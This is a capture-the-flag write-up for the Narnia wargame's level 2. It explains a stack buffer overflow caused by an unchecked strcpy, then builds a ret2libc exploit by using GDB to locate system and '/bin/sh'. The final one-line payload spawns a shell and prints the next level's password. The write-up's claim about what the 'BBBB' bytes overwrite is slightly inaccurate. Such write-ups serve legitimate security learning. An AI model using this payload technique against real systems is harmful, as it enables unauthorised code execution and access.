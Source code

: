 # narnia2
slopey112 - 3/5/19

Taking a look at the binary, we can see it simply spits back whatever we feed it.
```
narnia2@narnia:/narnia$ ./narnia2 asdf
asdfnarnia2@narnia:/narnia$
```
Let's take a look at the source code to determine what we can exploit.
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
The code is very short, but long enough for a prominent bug to be found: the vulnerable `strcpy()`. The problem isn't the command itself, but it's usage right now; `buf` is only 128 bytes, and if `argv[1]` is greater than that, we get a stack overflow error. The mistake that was made in this program was that there was no check to see how big `argv[1]` is. Therefore, we can exploit this program.

However, that leads to another question in it of itself. How can we exploit this program when there is absolutely nothing to exploit?

Turns out, we can use an attack known as "return to libc", or "ret2libc" for short. The idea is to overflow the return address of a function, such that when return is called, instead of jumping to where it is suppose to go, we can instead hijack it to jump to a libc function like `system`.

That's the concept we'll employ here. We'll pull out GDB, and let's figure out where everything is. We already know that the offset should be 132, because 128 bytes from the buffer, plus 4 from the saved ebp. Therefore, all we need to know is where `system` is stored and where `/bin/sh` is stored.

GDB let's us do that very easily. There's a handy print command that let's us do just that.
```
(gdb) b *main
Breakpoint 1 at 0x804844b
(gdb) r
Starting program: /narnia/narnia2

Breakpoint 1, 0x0804844b in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c850 <system>
```
Okay, so `system` is stored at `0xf7e4c850`. What about `/bin/sh`?
```
(gdb) find 0xf7e4c850, +99999999, "/bin/sh"
0xf7f6ecc8
warning: Unable to access 16000 bytes of target memory at 0xf7fc8a50, halting search.
1 pattern found.
(gdb) x/s 0xf7f6ecc8
0xf7f6ecc8:	"/bin/sh"
```
That's easy as well. Let's put it all together.
```
narnia2@narnia:/narnia$ ./narnia2 $(python -c "print 'A'*132+'\x50\xc8\xe4\xf7'+'BBBB'+'\xc8\xec\xf6\xf7'")
$ cat /etc/narnia_pass/narnia3
vaequeezee
```
Note the 4 bytes of B. These are used to overflow the return address.

